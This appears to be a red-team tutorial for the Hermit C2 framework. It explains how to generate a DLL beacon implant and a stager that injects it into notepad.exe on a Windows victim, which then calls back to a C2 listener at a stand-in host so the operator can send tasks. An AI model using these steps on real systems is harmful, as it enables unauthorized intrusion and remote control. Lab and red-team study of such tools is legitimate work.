

# Simple DLL Injection

In this tutorial, we generate a stager that loads our DLL implant into another process on Windows victim machine. Then make the C2 agent to communicate with our C2 server.   

Assume that you've completed [the Simple Implant Beacon tutorial](./simple-implant-beacon.md).  

## 1. Start C2 Server

In the Hermit project root, start the C2 server:

```sh
./hermit
```

## 2. Start HTTPS Listener

Once the C2 server started, also start HTTPS listener by the following command on the C2 server console:

```sh
Hermit > listener start
```

After starting, the listener folder is generated at `$HOME/.hermit/server/listeners/listener-<name>`.

## 3. Generate DLL Implant

We generate an implant DLL with `payload gen` command.


In the option wizard, choose the following options at least:

- What to generate? -> `implant/beacon`
- OS/Arch/Format    -> `windows/amd64/dll`

*If we choose the domain for the listener URL such as `https://example.evil:12345` instead of the ip address such as `https://172.12.34.56:12345`, we need to add the domain to the `C:\Windows\System32\drivers\etc\hosts` on the Windows victim machine for connecting back to our C2 server.

After that, we can see the generated payload with the `listener payloads <LISTENER-ID>` command:


This payload is stored under `$HOME/.hermit/server/listeners/listener-<name>/payloads/`. The DLL loader that we will create later will find this DLL file in this directory and load it, so don't move this file.

## 4. Generate DLL Loader (Stager)

Next, we generate a stager that loads our DLL and execute it.  
Run the `payload gen` command again:


In the option wizard, choose the following options at least:

- What to generate? -> `stager/dll-loader`
- OS/Arch/Format    -> `windows/amd64/exe`
- Listener URL      -> (Same URL as when generating the DLL)
- Technique         -> `dll-injection`
- Process to Inject -> `notepad.exe`

This stager is also generated under `$HOME/.hermit/server/listeners/listener-<name>/payloads/`.  
**We need to transfer this stager to Windows victim machine.**

## 5. Execute Stager

In Windows victime machine, we need to start `notepad.exe` before executing the stager:

```powershell
PS C:\Users\victim\Desktop> notepad
```

That's because we selected `notepad.exe` as the target process in the previous **Generate DLL Loader** section.  
By doing so, our stager can inject the DLL into the `notepad` process.

Finally we can execute the stager as below:

```powershell
# Replace the filename with your own.
PS C:\Users\victim\Desktop> .\stager.exe
```

## 6. Switch to Agent Mode

After few seconds (10~30 seconds by default), we can see that the agent connected to our C2 server with `agents` command:


To enter the agent mode, run `agents` command on C2 server console:


## 7. Send Tasks

In agent mode, we can send tasks and see results. Try `ps` task:



This task prints running processes on victim machine.  

Next, run the `loot` command to see the task results. If we cannot the result yet, please repeat executing `loot` command then we should see the results after a while.

When we look at the `ps` task result, we find that our implant is running on the `Notepad.exe` process as below:


## 8. Stop Implant & Quit Agent Mode

After playing the agent, stop the implant with the `kill` command:

```sh
Hermit > kill
```

Then run `exit` command to quit the agent mode.

